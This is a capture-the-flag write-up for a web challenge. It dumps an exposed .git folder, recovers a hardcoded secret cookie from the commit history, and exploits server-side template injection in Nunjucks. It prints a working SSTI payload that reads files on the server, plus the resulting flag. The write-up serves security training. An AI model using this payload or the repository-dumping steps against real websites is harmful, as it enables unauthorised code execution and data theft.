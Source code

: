 # gitcha

## DESCRIPTION
>Simon is maintaining a personal portfolio website, along with a secret which no one else knows.  
> Can you discover his secret?  
> **FLAG FORMAT**:
dsc{[a-zA-Z0-9_]+}

## Solution
* On viewing the page source, we see a HTML comment about `.git` folder
* We are able to access the `.git` folder and view its contents
* Using [git-dumper](https://github.com/arthaud/git-dumper) download the `.git` folder.
* Check the commits  
`git log`

* commit `dcfb8e6db1b5d4bc80ab7af385fd6a80a7ce9561`
```javascript
app.get("/supersecret", (req, res) => {
-  if (req.cookies["SECRET_COOKIE_VALUE"] === "thisisahugesecret") {
-    res.send("You found the secret!");
}})
```
* To be an admin we should simply set this as the cookie:   
`SECRET_COOKIE_VALUE:thisisahugesecret`
* access `/supersecret`
* First thought was `SSTI`
* Testing with basic payload `{{7*7}}` evaluated to `49`, so our payload worked
* Next was to retrieve contents of `flag.txt`
* Found a payload on [HackTrickz](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks)
### Payload
```txt
{{range.constructor("return global.process.mainModule.require('fs').readFileSync('flag.txt')")()}}
```  


* Adding this is a note and viewing the note gives us the flag
* Flag:   
`dsc{g1t_enum3r4ti0n_4nD_sSt1}`


## Resources:
* https://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
* https://github.com/geeknik/the-nuclei-templates/blob/main/node-nunjucks-ssti.yaml
* [hacktricks.xyz](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks)